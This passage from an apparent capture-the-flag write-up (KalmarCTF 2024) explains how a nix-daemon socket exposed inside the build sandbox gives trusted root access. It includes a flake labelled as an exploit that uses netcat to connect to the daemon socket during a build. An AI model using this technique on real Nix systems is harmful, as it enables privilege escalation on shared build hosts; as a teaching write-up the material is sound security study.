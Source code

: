 > **Obviously, this should not be used with a nix daemon accessible to untrusted clients.**
>
> Defaults to nixbld when running as root, empty otherwise.

So it seems that since `build-users-group` is empty, builds will be performed by the root user,
which, by default, is a trusted user in the eyes of the `nix-daemon`.

Putting together all the puzzle pieces, I realise that the `nix-daemon` is exposed inside
the build sandbox at `/tmp/daemon` because of the aforementioned `extra-sandbox-paths` option,
which means we can get trusted access to the `nix-daemon`!

## Turning on the VM

To test this theory, I tweak the `flake.nix` a bit to set a password for both the `root` and `user`
users and enable SSH access for `root`.
This allows me to access logs from the `nix-daemon`, which [prints a message][daemon-log-message]
every time a connection is initiated, indicating whether the user is trusted or not.

Turning on the VM with QEMU and SSH'ing into both users, I upload a simple flake that contains
a derivation that opens a connection to the `nix-daemon` socket during build.

```nix, hl_lines=32
{
  description = "Exploit for Reproducible Pwn - KalmarCTF 2024";

  inputs = {
    nixpkgs.url = "github:nixos/nixpkgs?ref=6e2f00c83911461438301db0dba5281197fe4b3a"; # nixos-unstable
  };

  outputs = {
    self,
    nixpkgs,
  }: let
    system = "x86_64-linux";
    pkgs = import nixpkgs {
      inherit system;
      overlays = [
        (final: prev: {
          nix = final.nixVersions.nix_2_13;
        })
      ];
    };
  in {
    packages.${system}.exploit = pkgs.stdenv.mkDerivation {
      name = "exploit";

      # Just run installPhase and skip everything else
      phases = ["installPhase"];

      buildInputs = [
        pkgs.netcat
      ];

      installPhase = ''
        nc -U /tmp/daemon
      '';
    };
  };
}
```
